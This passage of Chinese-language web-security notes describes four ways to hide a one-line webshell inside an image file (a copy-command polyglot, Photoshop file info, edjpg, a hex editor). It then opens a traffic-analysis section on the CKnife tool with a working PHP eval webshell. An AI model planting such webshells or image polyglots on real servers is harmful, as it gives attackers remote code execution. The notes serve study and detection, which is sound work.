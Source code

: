 copy命令：

```
CMD命令：copy 1.jpg/b+1.php/a 2.jpg
```

PS软件：

```
PS打开图片，在文件—>文件简介里插入需要的木马代码，最后：文件—>保存【保存：覆盖原文件，也可以另存为其他格式】。
```

edjpg软件：

```
将图片直接拖到edjpg.exe上，在弹出窗口内输入一句话木马即可。
```

十六进制编辑器：

```
用010 Editor或winhex等十六进制编辑器打开图片，将一句话木马插入到右边最底层或最上层后保存。
```

## Webshell流量分析

### CKnife 菜刀

Webshell代码：

```php
# npc.php
<?php eval($_POST["npc"]);?>
```

流量特征：

- 明文传输。
- npc是php一句话木马的password。

![img](./images/202211091032518.png)
